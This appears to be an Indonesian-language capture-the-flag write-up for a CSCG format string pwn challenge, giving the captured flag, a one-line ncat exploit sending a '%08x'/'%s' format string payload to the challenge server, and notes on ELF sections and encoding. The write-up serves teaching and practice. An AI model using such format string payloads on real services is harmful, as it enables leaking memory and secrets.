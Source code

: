 Solusinya yang saya temukan adalah menggunakan library python3 yaitu pwntools. Dengan pwn tools ini hex yang saya berikan tidak berubah, dan akhirnya saya bisa mendapatkan flagnya

CSCG{h0pe_y0u_didnt_stuggl3_t00_h4rd_on_th1s_one}

Alternatif (new)
```sh
	(sleep 2;python3 -c "print(',%08x,'*30+'%s'+'A'*18)" > /tmp/payload && echo -e `cat /tmp/payload`'\xe0\x40\x40';sleep 2)|ncat --ssl 4e384f82e41b15980e5a1d0e-intro  
-pwn-2.challenge.master.cscg.live 31337
```
### Pemikiran
Kita harus mengetahui dimana letak dari stack yang berisi data dari "load_flag"

```
docker run intro-pwn2:latest bash -c "apt-get install -y binutils"
docker commit eager_gates pwn2-with_objdump
docker run -it -p 81:80 ubuntu-nginx /bin/bash
```

### Catatan
In computer programming, the block starting symbol (abbreviated to . bss or bss) is **the portion of an object file, executable, or assembly language code that contains statically allocated variables that are declared but have not been assigned a value yet**. It is often referred to as the "bss section" or "bss segment".

`.text` tells the assembler to switch to the text segment (where code goes), and `.data` tells the assembler to switch to the data segment (where data goes).

More specifically, `.data` is where _non-zero_, _read-write_ data goes. Other section names include `.rodata` (or `.rdata` on Windows) for read-only data, and `.bss` for zeroed data.

```
readelf -a pwn2
```

Description. The memset() function **sets the first count bytes of dest to the value c**. The value of c is converted to an unsigned character.

#### karakter \xe0 berubah menjadi \xa0\xc3
Kemungkinan yang terjadi karena **karakter encoding** dari program C tersebut yang membuat karakter yang tadinya `\xe0` berubah menjadi `\xa0\xc3`. Kemungkinan **Solusi** yang bisa dilakukan adalah mencari hex yang bisa menghasilkan `\xe0` didepannya jika di inputkan ke programnya

### Referensi
https://owasp.org/www-community/attacks/Format_string_attack
https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b
https://jvns.ca/blog/2021/05/17/how-to-look-at-the-stack-in-gdb/\
https://www.youtube.com/watch?v=0WvrSfcdq1I&t=470s
https://www.youtube.com/watch?v=y5kcaqKYlqI&t=1001s **W4_1 - Format string vulnerabilities**
https://www.youtube.com/watch?v=aJVNBAB-pZg&t=618s **Format String Vulnerabilities Lunchbox**
https://cs155.stanford.edu/papers/formatstring-1.2.pdf
https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf
https://jhalon.github.io/2018-google-ctf-beginners-pwn-solutions-2/
https://mincong.io/2019/04/07/understanding-iso-8859-1-and-utf-8/ **character encode**
